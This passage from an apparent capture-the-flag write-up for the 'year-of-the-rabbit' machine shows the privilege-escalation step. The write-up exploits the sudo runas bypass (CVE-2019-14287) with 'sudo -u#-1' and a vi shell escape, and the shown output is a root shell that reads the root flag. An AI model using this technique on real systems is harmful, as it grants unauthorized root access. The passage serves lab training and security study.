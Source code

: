 ```

Yours sincerely
   -Root
```

Now we have `gwendoline`'s password.

## Privilege Escalation

Checking `sudo -l` reveals that we can edit `user.txt` with `vi` as any user other than root.

```
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

If we could [somehow run it as UID 0 without technically being root](https://nvd.nist.gov/vuln/detail/CVE-2019-14287), we could use `vi` to escalate.

If you check `sudo -V`, our version is vulnerable.

```
gwendoline@year-of-the-rabbit:~$ sudo -V
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
(type :!/bin/sh in vi)
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
# exit
```